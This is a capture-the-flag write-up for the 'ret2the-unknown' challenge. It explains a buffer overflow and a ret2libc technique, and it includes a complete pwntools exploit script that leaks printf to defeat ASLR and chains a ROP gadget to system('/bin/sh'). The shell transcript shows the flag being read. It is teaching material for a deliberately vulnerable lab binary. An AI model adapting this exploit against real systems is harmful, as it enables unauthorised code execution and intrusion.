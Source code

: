 # ret2the-unknown

<p align="center">
    <kbd><img src="images/ret2theunknown-1.png" caption="Challenge" /></kbd><br/>
</p>

The challenge description has hinted that it is a ret2libc challenge

At line 17 of the source code, it is clear that the program is vulnerable to buffer overflow

<p align="center">
    <kbd><img src="images/ret2theunknown-2.png" caption="Challenge" /></kbd><br/>
</p>

To start, fuzz the input <br />
```
$ pattern_create 100 
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
``` 

Run the program and provides the above payload. It segfaults at ret instruction <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-3.png" caption="Challenge" /></kbd><br/>
</p>

Looking at the registers, I can identify the return address <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-4.png" caption="Challenge" /></kbd><br/>
</p>

```
$ pattern_offset AA0AAFA
AA0AAFA found at offset: 40
```

So, I need to spray 40 random characters in order to control RIP.

From the source code, I know that the address of printf function is leaked.

From the program, I know that ASLR is enabled.
<p align="center">
    <kbd><img src="images/ret2theunknown-5.png" caption="Challenge" /></kbd><br/>
</p>

Idea to pwn this challenge: Overwrite the ret address to address of main function so that it reruns the program. Then, obtain the address of printf function from the output and used it to find the base libc address. Once I have updated the base libc address, I can get the address of `system` as well as the strings `/bin/sh`. I also obtain ROP gadget `pop rdi; ret` from the binary (pass `/bin/sh` as an argument to `system`).

Using [ropper](https://github.com/sashs/Ropper), I know that there exists “pop rdi; ret” gadget in the binary. <br />
`$ python3 Ropper.py -f ../ret2the-unknown --search "% ?di"` <br />
<p align="center">
    <kbd><img src="images/ret2theunknown-6.png" caption="Challenge" /></kbd><br/>
</p>

Following the idea mentioned above, I created the script to perform my exploit.

```
from pwn import *

# Loading ELF files
binary = ELF('./ret2the-unknown')
linker = ELF('./ld-2.28.so')
libc = ELF('./libc-2.28.so')
context.update(arch='amd64',os='linux')

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

p = remote('mc.ax', 31568)
#p = process(binary.path)
res = p.recvuntil('there safely?\n')
print(res.decode('latin-1'))
payload = b'A' * 40
payload += p64(binary.symbols['main'])
p.sendline(payload)
printf_addr = p.recvuntil('good luck!\n').split(b'there:')[1].strip().split(b'\n')[0].strip().decode()
print("printf_addr: " + printf_addr)
print("printf_offset: " + hex(libc.symbols['printf']))
res = p.recvuntil('there safely?\n')
print(res)

# finding the base adddress
libc_base_addr = int("0x" + printf_addr, 16) - libc.symbols['printf']
print(hex(libc_base_addr))
libc.address = libc_base_addr   # update libc address

payload = b'A' * 40
payload += p64(pop_rdi + 1) # trick to handle stack misalignment (as pop rdi - 2 bytes, ret - 1 byte) (pop_rdi + 1 is ret instruction)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.symbols['system'])
p.sendline(payload)

p.interactive()
```

```
$ python3 exploit-ret2libc.py
[snip]
that board meeting was a *smashing* success! rob loved the challenge!
in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...
where is this place? can you help me get there safely?

printf_addr: 7fb461c48560
printf_offset: 0x58560
b"that board meeting was a *smashing* success! rob loved the challenge!\nin fact, he loved it so much he sponsored me a business trip to this place called 'libc'...\nwhere is this place? can you help me get there safely?\n"
0x7fb461bf0000
[*] Switching to interactive mode
phew, good to know. shoot! i forgot!
rob said i'd need this to get there: 7fb461c48560
good luck!
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}
[*] Got EOF while reading in interactive
```

Flag: `flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`

# Resources
https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html <br />
https://github.com/Gallopsled/pwntools-tutorial
https://medium.com/@ar33zy/encryptctf-2019-pwn-write-up-4-of-5-6fc5779d51fa